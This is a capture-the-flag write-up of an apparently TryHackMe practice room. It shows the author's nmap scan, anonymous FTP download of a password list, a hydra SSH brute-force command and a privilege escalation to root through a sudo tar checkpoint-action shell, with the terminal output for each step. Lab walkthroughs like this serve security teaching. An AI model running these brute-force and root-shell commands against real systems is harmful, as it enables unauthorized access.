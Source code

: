 # BountyHunter

```
t3nsh0@KALI:~/htb/smag$ sudo nmap 10.10.146.130 -sC -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-31 21:11 CEST
Nmap scan report for 10.10.146.130
Host is up (0.071s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.10.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.86 seconds
```

Webpage telling us we have to hack this room... I downloaded the picture and tried steghide against it but nothing here.<br>
Nothing else here even after a gobuster scan.

# FTP
It's allowed in anonymous<br>
```
t3nsh0@KALI:~/htb/smag$ ftp 10.10.146.130
Connected to 10.10.146.130.
220 (vsFTPd 3.0.3)
Name (10.10.146.130:t3nsh0): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```
locks.txt is a list of password and task has a username inside of it. 
# SSH
Let's brute force ssh !<br>
I used crackmap exec but it didn't work... I've lost a lot of time because of it...<br>
Let's brute force with hydra !<br>

```hydra -l <userame we found> -P locks.txt 10.10.146.130 ssh```<br>

We are connected and we have our user flag !<br>
# ROOT
Before running linpeas let's check sudo -l<br>
```xxxxxx@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for xxxxxx on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
``` 
<br>
There is a privesc with it on gtfobins so it's an easy win <br>

``sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
``

<br>
Let's run it :<br>

```lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# /bin/bash
root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
root@bountyhacker:~/Desktop# ls -l /root/
total 4
-rw-r--r-- 1 root root 19 Jun  7 17:16 root.txt
root@bountyhacker:~/Desktop# 
```

Here we go ! Very easy room but it's still nice to do it. <br>
Thanks [Sevuhl](https://tryhackme.com/p/Sevuhl) !
